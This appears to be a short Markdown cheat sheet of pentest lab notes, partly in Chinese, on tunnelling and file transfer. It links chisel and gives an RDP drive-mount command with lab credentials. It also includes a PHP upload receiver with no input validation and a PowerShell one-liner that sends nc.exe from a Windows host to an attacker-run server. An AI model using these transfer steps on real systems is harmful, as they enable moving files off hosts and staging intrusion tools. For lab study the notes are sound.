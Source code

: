 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

chisel 是一个用于创建隧道的工具，它可以通过HTTP代理或者SOCKS5代理来创建隧道。

### dnsmasq

## Proxy

## Transfer

### download

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Tips

1.
